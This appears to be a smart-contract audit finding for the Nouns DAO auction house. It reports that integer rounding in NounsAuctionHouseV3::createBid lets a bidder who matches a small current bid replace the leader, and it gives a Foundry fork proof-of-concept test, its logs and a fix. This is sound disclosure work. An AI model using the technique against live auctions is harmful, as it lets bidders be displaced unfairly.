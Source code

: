 Vast Infrared Pelican

Medium

# User bidding with same current bid amount price can replace current bid winner  on NounsAuctionHouseV3::createBid under certains condition

### Summary

User bidding with same current bid amount price can replace current bid winner  on NounsAuctionHouseV3::createBid under certains condition show below  

### Root Cause

Wrong requirement check on NounsAuctionHouseV3.sol::createBid.  
NounsAuctionHouseV3.sol::createBid implements a condition to check if bid is bigger than current bid amount:  
https://github.com/sherlock-audit/2024-11-nounsdao/blob/8b6fb94f103134e751cf016e5c3f4185be89bb49/nouns-monorepo/packages/nouns-contracts/contracts/NounsAuctionHouseV3.sol#L157-L160  
```solidity
    function createBid(uint256 nounId, uint32 clientId) public payable override {
        require(
@>          msg.value >= _auction.amount + ((_auction.amount * _minBidIncrementPercentage) / 100),
            'Must send more than last bid by minBidIncrementPercentage amount'
        );
```
However if auction.amount * minBidIncrementPercentage is less than 100 then:  
```solidity
((_auction.amount * _minBidIncrementPercentage) / 100)
```
Will become 0.  
So the require condition will allow msg.value to be equal to current auction.amount, ie, allowing any user to be the highest bidder without bidding more amount than current bid  

This is feassible because of current mainnet values on NounsAuctionHouseV2(0x830bd73e4184cef73443c15111a1df14e495c706) are:  
- reservePrice: 1
- minBidIncrementPercentage: 2
So this will be valid if _auction.amount < 50 wei


### Internal pre-conditions

Current auction.amount * minBidIncrementPercentage is less than 100  

### External pre-conditions

Another user calling NounsAuctionHouseV3.sol::createBid with same current bid  amount

### Attack Path

1. User bids amount such that auction.amount * minBidIncrementPercentage is less than 100   
2. Another users sees this and calls NounsAuctionHouseV3.sol::createBid with same amount replacing current bid leader

### Impact

User can replace current bidder without bidding more value.  
Likehood: Low  
Impact: High  
Severity: Medium  
  

### PoC

Add the following test case in test/foundry/Upgrade/UpgradeMainnetFork.t.sol under contract AuctionHouseUpgradeMainnetForkTest:  
```solidity
    function test_auctionHouseV3_replaceBidSameAmount() public {
        console.log("[i] Addresses");
        console.log("\tUser1 address => ",address(user1));
        console.log("\tUser2 address => ",address(user2));

        INounsAuctionHouseV3 auction = INounsAuctionHouseV3(AUCTION_HOUSE_PROXY_MAINNET);
        IStreamEscrow streamEscrow = auction.streamEscrow();
        auction.settleCurrentAndCreateNewAuction();

        uint96 nounId1 = auction.auction().nounId;
        uint reservePrice = auction.reservePrice();
        uint current_amount = auction.auction().amount;
        uint minBidIncrementPercentage = auction.minBidIncrementPercentage();

        console.log("[i] Current bid amount ",current_amount);
        console.log("[i] Current reservePrice ",reservePrice);
        console.log("[i] Current minBidIncrementPercentage ",minBidIncrementPercentage);

        uint val_to_bid = 20;

        //User1 bids
        console.log("\n");
        console.log("[i] User1 bids with amount ", val_to_bid);
        vm.prank(user1);
        auction.createBid{ value: val_to_bid }(nounId1);

        console.log(
            "After bid current highest bidder ",
            auction.auction().bidder
        );

        //USER2
        console.log("\n");
        console.log("[i] User2 bids with amount ", val_to_bid);
        vm.prank(user2);
        auction.createBid{ value: val_to_bid }(nounId1);

        console.log(
            "After bid current highest bidder ",
            auction.auction().bidder
        );

        vm.warp(block.timestamp + auction.auction().endTime);
        auction.settleCurrentAndCreateNewAuction();
    }
```
Exec test with:  
```bash
forge test --mt test_auctionHouseV3_replaceBidSameAmount -vv
```
Observe logs:  
```bash
[PASS] test_auctionHouseV3_replaceBidSameAmount() (gas: 648181)
Logs:
  foundry profile:  default
  [i] Addresses
  	User1 address =>  0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF
  	User2 address =>  0x537C8f3d3E18dF5517a58B3fB9D9143697996802
  [i] Current bid amount  0
  [i] Current reservePrice  1
  [i] Current minBidIncrementPercentage  2
  

  [i] User1 bids with amount  20
  After bid current highest bidder  0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF
  

  [i] User2 bids with amount  20
  After bid current highest bidder  0x537C8f3d3E18dF5517a58B3fB9D9143697996802
```
User2 can replace user1 bid, without sending more value  

### Mitigation

Modified require condition to check bid caller sends more value than current amount:  
```solidity
        require(
            msg.value >= _auction.amount + ((_auction.amount * _minBidIncrementPercentage) / 100) && msg.value > _auction.amount ,
            'Must send more than last bid by minBidIncrementPercentage amount'
        );
```